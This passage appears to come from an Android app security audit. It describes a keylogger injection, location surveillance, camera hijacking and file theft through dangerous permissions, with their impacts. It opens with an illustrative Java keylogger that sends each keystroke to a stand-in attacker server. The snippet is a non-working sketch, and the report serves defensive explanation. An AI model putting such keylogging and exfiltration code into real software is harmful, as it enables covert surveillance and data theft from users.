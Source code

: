 **Example Malicious Code Injection**:
```java
// Injected keylogger code
public class KeyloggerService extends Service {
    @Override
    public void onKeyDown(int keyCode, KeyEvent event) {
        String key = KeyEvent.keyCodeToString(keyCode);
        sendToAttackerServer(key); // Send to attacker
    }
}
```

### 3. **Location Surveillance** (HIGH)
**Vulnerability**: Dangerous permissions (ACCESS_FINE_LOCATION)

**How the Exploit Works**:
1. **Permission Abuse**: Use granted location permission for malicious purposes
2. **Continuous Tracking**: Track user location every second
3. **Data Exfiltration**: Send location data to attacker servers
4. **Privacy Violation**: Create detailed movement profiles

**Real-World Impact**:
- ✅ **Surveillance**: Track users 24/7
- ✅ **Privacy Violation**: Know where users live, work, and travel
- ✅ **Data Selling**: Sell location data to third parties
- ✅ **Stalking**: Enable physical stalking and harassment
- ✅ **Social Engineering**: Use location data for targeted attacks

### 4. **Camera Hijacking** (HIGH)
**Vulnerability**: Dangerous permissions (CAMERA)

**How the Exploit Works**:
1. **Unauthorized Access**: Use camera permission without user knowledge
2. **Photo/Video Capture**: Take pictures and record videos secretly
3. **Data Exfiltration**: Send captured media to attacker servers
4. **Blackmail Potential**: Use photos/videos for extortion

**Real-World Impact**:
- ✅ **Privacy Violation**: Secret photo/video recording
- ✅ **Blackmail**: Use captured media for extortion
- ✅ **Identity Theft**: Use photos for fake profiles
- ✅ **Surveillance**: Monitor user activities
- ✅ **Legal Issues**: Potential legal consequences for users

### 5. **File System Access** (HIGH)
**Vulnerability**: Dangerous permissions (READ_EXTERNAL_STORAGE)

**How the Exploit Works**:
1. **File Access**: Access all files on external storage
2. **Data Theft**: Steal personal photos, documents, and files
3. **Privacy Violation**: Access sensitive personal information
4. **Data Exfiltration**: Send stolen files to attacker servers
